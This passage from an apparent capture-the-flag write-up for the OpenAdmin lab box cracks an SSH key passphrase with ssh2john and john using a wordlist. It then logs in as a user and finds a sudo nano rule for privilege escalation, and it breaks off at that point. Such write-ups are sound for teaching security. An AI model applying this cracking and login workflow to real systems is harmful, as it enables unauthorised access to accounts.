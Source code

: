 ```bash
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

After getting the key we of course try copying it to our box and ssh as joanna but it asks for a passphrase and we dont have one so we must try and get one.

We use ssh2john.py to convert the ssh key to a hash so that we can try and extract a passphrase from it using john. `./ssh2john.py id_rsa > hash.txt`

```bash
kali@kali:~/boxes/openadmin$ sudo john -w=/home/kali/rockyou.txt hash.txt
[sudo] password for kali: 
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (id_rsa)
1g 0:00:00:05 DONE (2020-06-13 04:54) 0.1672g/s 2398Kp/s 2398Kc/s 2398KC/sa6_123..*7¡Vamos!
Session completed
```

So we now have the password `bloodninjas`.

We give the rsa file appropriate permissions with `chmod 400 id_rsa` and then we ssh into the box as joanna and read our user flag.

```bash
kali@kali:~/boxes/openadmin# ssh -i id_rsa joanna@10.10.10.171
Enter passphrase for key 'id_rsa': 

joanna@openadmin:~$ cat user.txt
c9b2cf07d[...]
```

## ROOT

We run `sudo -l` as always when we are trying to priv esc to see if we can run anything as sudo.

```bash
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
